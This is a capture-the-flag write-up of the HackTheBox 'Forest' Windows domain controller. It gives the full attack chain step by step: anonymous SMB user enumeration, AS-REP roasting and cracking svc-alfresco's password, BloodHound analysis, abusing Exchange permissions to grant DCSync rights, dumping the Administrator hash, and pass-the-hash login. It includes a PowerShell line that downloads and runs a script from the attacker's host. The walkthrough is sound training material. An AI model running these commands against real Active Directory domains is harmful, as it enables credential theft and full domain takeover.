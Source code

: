 ```yaml
---
title: "Forest writeup [HTB]"
categories:
    - Writeup
tags:
    - Windows
    - Active Directory
---
```


# Forest

Forest is a Windows-based HTB machine with an Easy difficulty rating. The initial nmap scan reveals open ports including domain, Kerberos, and LDAP services. Exploitation involves enumerating users, obtaining a Kerberos hash for svc-alfresco, cracking the password, and gaining a foothold. Privilege escalation is achieved by abusing Exchange Windows Permissions, creating a new user, granting DCSync rights, and finally dumping domain credentials to obtain Administrator access. The machine was successfully compromised, with user and root flags obtained

Difficulty: Easy
OS: Windows
Rating: 4.6
Release Date: October 12, 2019 5:00 PM (GMT+1)

I began by enumerating the open ports to identify the services running on the box. Noticing port 88, it's likely that this box is a Domain Controller (DC). Additionally, SMB and LDAP are available, which are ideal for gathering more information. Let's start with SMB.

```
Nmap scan report for htb.local (10.10.10.161)
Host is up (0.30s latency).
Not shown: 989 closed tcp ports (conn-refused)
PORT     STATE SERVICE
53/tcp   open  domain
88/tcp   open  kerberos-sec
135/tcp  open  msrpc
139/tcp  open  netbios-ssn
389/tcp  open  ldap
445/tcp  open  microsoft-ds
464/tcp  open  kpasswd5
593/tcp  open  http-rpc-epmap
636/tcp  open  ldapssl
3268/tcp open  globalcatLDAP
3269/tcp open  globalcatLDAPssl
```

Using `nxc`, I managed to obtain a list of valid local and domain users by exploiting anonymous login on SMB.

```bash
nxc smb 10.10.10.161 -u '' -p '' --user
```

```bash
Administrator
Guest
DefaultAccount
$331000-VK4ADACQNUCA
SM_2c8eef0a09b545acb
SM_ca8c2ed5bdab4dc9b
SM_75a538d3025e4db9a
SM_681f53d4942840e18
SM_1b41c9286325456bb
SM_9b69f1b9d2cc45549
SM_7c96b981967141ebb
SM_c75ee099d0a64c91b
SM_1ffab36a2f5f479cb
HealthMailboxc3d7722
HealthMailboxfc9daad
HealthMailboxc0a90c9
HealthMailbox670628e
HealthMailbox968e74d
HealthMailbox6ded678
HealthMailbox83d6781
HealthMailboxfd87238
HealthMailboxb01ac64
HealthMailbox7108a4e
HealthMailbox0659cc1
sebastien
lucinda
svc-alfresco
andy
mark
santi
```

The easiest attack path when you have a valid list of domain users is to check if any accounts have pre-authentication disabled. That's exactly what I did using the GetNPUsers script from Impacket, and I found the account `svc-alfresco`.

```bash
impacket-GetNPUsers htb.local/ -request -format john -outputfile files/hash.txt
Impacket v0.12.0.dev1 - Copyright 2023 Fortra

Name          MemberOf                                                PasswordLastSet             LastLogon                   UAC      
------------  ------------------------------------------------------  --------------------------  --------------------------  --------
svc-alfresco  CN=Service Accounts,OU=Security Groups,DC=htb,DC=local  2024-08-27 19:16:24.316379  2024-08-27 19:15:56.582001  0x410200 

$krb5asrep$svc-alfresco@HTB.LOCAL:82ea9cf186f131cd904ce48c80d5d2f3$973d513bab9a3a49b7b4e7a93b117bd26d54aa2b98917631d3762f0c6d53e5233db24b33d669463dae69a8c7ef37a222dc489b22db725b9718394894e7ab773c25e79a82a4bf2f4dc88b5466be30583c2c40e8d4aa1694cfb19e5846b98a77260209e978ea9c89e11b569b89c026fabf872579bec799a01f59cd9a538d7eda0ddab8dbc925962a35b6b30258911353d3920c7675a7c592c2e89e679b79856bdd0a736d821881ebd242643f2d3974e22c10147e01d1eda31bebd2ad9a210207d89de32061b682b2d45e77a5458ec825514976d8c5885fc9f931f6ce7a49f0db8cefda4c36d0a0
```

now we have the hash of `svc-alfresco` user let try to crack it 

```bash
john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt
s3rvice          ($krb5asrep$svc-alfresco@HTB.LOCAL)     
```

After obtaining valid user credentials, let's start enumerating again to see what actions we can perform with them. Returning to nxc, we found that we can use WinRM to access that user.

```bash
nxc winrm 10.10.10.161 -u 'svc-alfresco' -p 's3rvice'
WINRM       10.10.10.161    5985   FOREST           [*] Windows 10 / Server 2016 Build 14393 (name:FOREST) (domain:htb.local)
WINRM       10.10.10.161    5985   FOREST           [+] htb.local\svc-alfresco:s3rvice (Pwn3d!)
```

By gaining shell access, we can retrieve the user flag located on the user's desktop. Upon examining the user's privileges, we discovered that they have interesting permissions that allow the creation of domain users. Using BloodHound, I was able to visualize a clear path to compromising the domain admin. The user is a member of the 'Account Operators' group, which has 'GenericAll' on 'Exchange Windows Permissions.' This, in turn, has 'WriteDACL' on the htb.local domain. By combining these privileges, we can create a domain user, grant them the right to perform a DCSync attack, and obtain the admin hash

```bash
evil-winrm  -i 10.10.10.161 -u 'svc-alfresco' -p 's3rvice'
*Evil-WinRM* PS C:\users\svc-alfresco> cd  C:\users\svc-alfresco
*Evil-WinRM* PS C:\users\svc-alfresco\Desktop> ls
Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-ar---        8/27/2024   6:45 AM             34 user.txt
```

```bash
*Evil-WinRM* PS C:\users\svc-alfresco\Desktop> whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                    State
============================= ============================== =======
SeMachineAccountPrivilege     Add workstations to domain     Enabled
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set Enabled
```

```bash
nxc ldap 10.10.10.161 -u 'svc-alfresco' -p 's3rvice' --bloodhound -c all --dns-server 10.10.10.161
```

![image.png](/assets/images/posts/Forest_assets/image.png)

```bash
*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> net user john Password123! /add /domain
The command completed successfully.
*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> net group "Exchange Windows Permissions" john /add
The command completed successfully.
*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> iex ((New-Object System.Net.WebClient).DownloadString('http://10.10.16.3:8000/PowerView.ps1'))
*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> $pass = convertto-securestring 'Password123!' -asplain -force 
*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> $cred = new-object system.management.automation.pscredential('htb\john', $pass)
*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> Add-ObjectACL -PrincipalIdentity john -Credential $cred -Rights DCSync
```

we can obtain the adm password using DCsync attack

```bash
impacket-secretsdump 'htb.local/john:Password123!@HTB.LOCAL'
Impacket v0.12.0.dev1 - Copyright 2023 Fortra

[-] RemoteOperations failed: DCERPC Runtime Error: code: 0x5 - rpc_s_access_denied 
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
htb.local\Administrator:500:aad3b435b51404eeaad3b435b51404ee:32693b11e6aa90eb43d32c72a07ceea6:::
```

```bash
evil-winrm  -i 10.10.10.161 -u 'Administrator' -H 32693b11e6aa90eb43d32c72a07ceea6                                    

*Evil-WinRM* PS C:\Users\Administrator> cd Desktop
*Evil-WinRM* PS C:\Users\Administrator> ls
Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-ar---        8/27/2024   6:45 AM             34 root.txt

```

![Screenshot 2024-08-28 011747.png](/assets/images/posts/Forest_assets/Screenshot_2024-08-28_011747.png)